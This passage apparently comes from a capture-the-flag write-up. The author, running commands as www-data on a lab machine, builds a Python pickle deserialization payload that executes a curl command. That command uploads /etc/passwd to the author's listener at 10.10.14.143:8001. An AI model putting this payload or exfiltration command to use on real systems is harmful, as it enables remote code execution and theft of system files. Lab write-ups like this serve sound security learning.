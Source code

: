 Thanks to this method I found out that I was executing commands as ``www-data`` (meaning I couldn't read the user flag) and that the user of the machine was ``Homer``.

### Curl to send files

Then, I though about getting files, so I looked at curl and found a way to get these. Hence, I modified my script in order to execute the command I wanted:

```py
cmd = "curl --form 'fileupload=@/etc/passwd' 10.10.14.143:8001"

char = """cposix
system
p0
(S'{};homerp1'
""".format(cmd)
```

There was just one problem, I needed something in order to get the data from the POST request. I googled a bit and found a [simple python server](https://gist.github.com/kylemcdonald/3bb71e4b901c54073cbc) that listened to these kind of requests:

*Output from the curl POST command*

![Img](images/etc_passwd.png "Img")
